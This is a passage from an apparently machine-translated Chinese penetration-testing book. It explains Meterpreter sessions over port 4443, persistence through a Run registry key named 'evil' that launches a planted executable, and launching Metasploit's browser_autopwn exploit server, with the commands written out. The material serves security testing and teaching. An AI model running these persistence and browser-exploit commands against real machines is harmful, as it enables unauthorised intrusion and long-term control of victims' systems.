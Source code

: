 ![Leveraging the client configuration](graphics/477-1_12_26.jpg)

从这里开始，这是一个我们想做什么的问题。输入我们以前在 MeterMeter shell 中使用的一些命令。这里额外的好处是，我们有所有的通信出口到端口 4443，这将看起来完全像正常的流量。在卡利，在 Wireshark 上开始捕获并观察机器之间的通信。以下屏幕截图显示了一个示例：

![Leveraging the client configuration](graphics/477-1_12_27.jpg)

同样，如果想要将端口更改为 SSH、HTTPS 或任何我们认为可以从我们正在测试的环境中获得的端口，我们可以自由地这样做。有关该功能的强大程度的示例，请继续让客户端与您连接。在 MeterMeter 外壳中，输入`detach`退出会话；一旦你退出，受害者就会与你联系。

以下屏幕截图显示了一个示例：

![Leveraging the client configuration](graphics/477-1_12_28.jpg)

我们将尝试做的下一件事是通过将代码复制到注册表来设置受害者，以便即使重新启动攻击也能存活下来。在 MeterMeter 外壳中，输入以下命令：

```
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v evil -d 'C:\windows\https.exe'
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

```

以下屏幕截图显示了使用这些命令的结果示例：

![Leveraging the client configuration](graphics/477-1_12_29.jpg)

使用这些命令，我们首先枚举注册表，然后设置启动时引用程序的键。如第三个命令所示，`evil`程序现在位于注册表项中。当然，如果我们试图隐藏它，我们会给它取个别的名字。我们可以通过访问 Windows XP 机器并导航到**开始****运行****regedit**并搜索该程序来验证该程序是否已植入。以下屏幕截图显示了一个示例：

![Leveraging the client configuration](graphics/477-1_12_31.jpg)

我们现在要重新启动受害者机器。重新启动后，metasploit 窗口中返回的连接结果示例如以下屏幕截图所示：

![Leveraging the client configuration](graphics/477-1_12_30.jpg)

# 客户端开发

到目前为止，我们讨论的大部分内容都是一种形式的客户端利用。在本节中，我们将了解更多攻击客户端的方法。我们将继续利用客户机的向量攻击机器，点击链接或文件并指向我们的攻击者机器。在我们继续之前，我们想重申，在撰写本书时，我们使用了最新和最强大的攻击。当你读这本书的时候，有些事情已经改变了。然而，唯一不变的是过程和方法。只要您继续遵循系统化流程，您将能够发现和识别最新的技术，并相应地修改您的方法。

我们在本章中使用的先前方法的一个挑战是，我们必须根据遇到的软件版本选择特定的漏洞利用。我们用 Java 和 Internet Explorer 实现了这一点。这很有效，但如果我们不知道受害者与我们连接时，他们的系统上到底会有什么呢？正如你所想象的，这是一个合理的担忧。幸运的是，metasploit 的优秀开发人员已经解决了这个问题。因此，他们为我们提供了一个模块，一旦建立了连接，该模块将尝试提供各种利用漏洞的服务。该模块为`browser_autopwn`。这个功能强大的模块确实使用库存中的所有当前漏洞建立了一个 web 服务器，当建立连接时，该模块将运行可用漏洞，直到找到一个漏洞为止。请记住，因为它永远不会被忽视，利用率不是 100%，所以它有失败的可能性。但是作为测试人员，我们必须始终尝试并保持记录结果的实践，然后继续我们的测试。

那么，让我们开始吧。在 metasploit 界面中，输入以下命令：

```
use auxiliary/server/browser_autopwn
set LHOST <Kali IP>
set SRVHOST <Kali IP>
set SRVPORT 80
set URIPATH /
run

```
